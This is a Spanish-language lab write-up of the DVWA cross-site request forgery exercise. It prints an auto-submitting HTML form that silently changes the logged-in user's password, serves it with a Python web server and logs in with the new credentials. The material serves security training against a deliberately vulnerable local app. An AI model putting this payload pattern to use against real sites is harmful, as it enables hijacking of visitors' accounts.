


En este ejercicio, vamos a realizar la ejecución de un cambio automatico de la contraseña del usuario. Para ello vamos exponer un archivo html en nuestro servidor python para que actue sobre nuestra maquina DVWA cuando se acceda al contenido del mismo. Para ello vamos a indicar el siguiente contenido en nuestro archivo html:

```html

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="pass" />
      <input type="hidden" name="password&#95;conf" value="pass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Y ejecutamos nuestro servidor python desde el directorio donde tenemos alojado nuestro archivo:

    python3 -m http.server

Y tras acceder al mismo desde el navegador, podemos observar que la contraseña por defecto ha cambiado:



Y tras acceder con las credenciales nuevas, obtenemos acceso a nuestro panel:




